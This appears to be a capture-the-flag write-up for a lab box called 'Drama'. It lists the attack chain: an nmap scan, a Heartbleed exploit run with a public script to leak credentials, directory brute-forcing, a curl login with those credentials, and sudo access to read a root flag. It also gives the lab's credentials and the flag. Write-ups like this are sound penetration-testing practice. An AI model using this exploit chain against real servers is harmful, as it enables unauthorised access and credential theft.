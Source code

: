 # Drama
[Day 6](../../Day%206.md)

Nmap the targer, find 80 and 443


Run ssltest on 443 to disclose heartbleed. 

Used #hartbleed vulnerability on the host to expose some information on a username and a password


![User LEading Passwords](drama_hartbleed_passwords.PNG)
```Bash
git clone https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py
```

```Bash
./hartbleed.py <target>
```

Find some credentials

Dirb the host, find the directories `server-status` and `/login.php` and `index.php`. If you inspect right or use burp you'll see it is giving an "invalid method" error. A post tells us it is expecting different parameters, "username" and "password". 

Use #curl to #curl/post the recovered username and password

```Bash
┌──(edward㉿kali)-[~]
└─$ curl -X POST 10.50.156.211/login.php --data "username=harriet&password=WhatsInTheBox844" 
```

Returns SSh credentials

User creds with the box as `harriet_sudo`, user us a sodoer, get flag from `/root`. 

```Bash
FLAG{dwbi2eybdosadn1E@Dakhqe1e1es93}
```
